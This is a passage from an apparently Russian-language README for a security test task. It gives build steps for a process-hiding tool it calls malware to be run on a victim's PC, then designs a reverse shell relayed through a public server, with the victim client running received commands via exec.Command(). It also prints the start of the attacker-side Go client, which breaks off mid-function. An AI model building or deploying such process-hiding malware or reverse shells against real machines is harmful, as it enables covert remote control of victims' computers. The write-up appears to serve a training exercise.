 ![Alt text](src/image-1.png)
2. Переносим все файлы из include в папку ProcessHider и поправляем импорты в main.cpp в той же папке

![Alt text](src/image-3.png)
3. Открываем проект и обновляем **target platform version** до 10.

![Alt text](src/image-2.png)

Cобираем проект и получаем вредонос, который можно запустить на ПК жертвы от имени администратора, напрмимер, с использованием программы в задаче 2.1.

![Alt text](src/poc2.2.gif)

## 2.3 Решение:

Так как атакуемая машина может находиться за NAT, то можно использовать сервер с белым ip-адресом. В таком случае мы будем общаться с машиной жертвы через сервер-посредник.

Решением является сервер, и два клиента, оба клиента подключаются к серверу, так как у него инвестный белый ip, клиент жертвы просто запускает команды через `exec.Command()`, а клиент-нападающий их отправляет.

[Код](https://github.com/dimosha19/TestTask/tree/main/reverse-shell)

клиент атакующей стороны: 

```go
package main

import (
	"bufio"
	"fmt"
	"log"
	"net"
	"os"
	"sync"
	"time"
)

func sendToServer(conn net.Conn) {
	for {
		reader := bufio.NewReader(os.Stdin)
		fmt.Println(">>>")

		text, err := reader.ReadString('\n')
		if err != nil {
			log.Fatal(err)
		}
		_, err = conn.Write([]byte(text + "\n"))
		if err != nil {
			fmt.Println("connection error")
			return
		}
```